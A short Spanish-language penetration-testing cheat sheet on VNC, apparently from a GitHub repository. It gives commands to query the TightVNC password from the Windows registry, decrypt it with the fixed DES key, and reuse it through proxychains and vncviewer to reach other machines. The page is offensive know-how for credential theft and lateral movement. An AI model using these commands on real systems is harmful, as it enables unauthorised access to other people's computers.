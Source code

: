 # Info
*(anydesk, Teamviewer)*

- Es una herramienta de acceso remoto.
- Utiliza el protocolo Remote Frame Buffer (RFB)


# Desde windows

### Prefacio

Usualmente los administradores de una red usan el mismo pass en muchas computadoras para facilitar la administración desde el VNC. Si obtenemos permisos de admin en una pc donde VNC está instalado, podemos buscar passwords

##### 1) Buscamos la pass dentro del registro (registro password)

    reg query HKLM\SOFTWARE\TightVNC\Server /s

##### 2) La pasamos a plain Text

     echo -n <binary_pass> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv


##### 3) Podemos entonces usar TightVNC viewer para conectarnos a otras pc


# Desde linux

### Vncviewer

##### Instalación

    sudo apt-get install xtightvncviewer
##### Uso

    echo <contraseña> | proxychains4 -q vncviewer 172.20.0.52 -autopass

##### Mejorar el rendimiento de la conexión
    echo <contraseña> | proxychains4 -q vncviewer 172.20.0.52 -autopass -quality 0 -nojpeg -compresslevel 1 -encodings "tight hextile" -bgr233


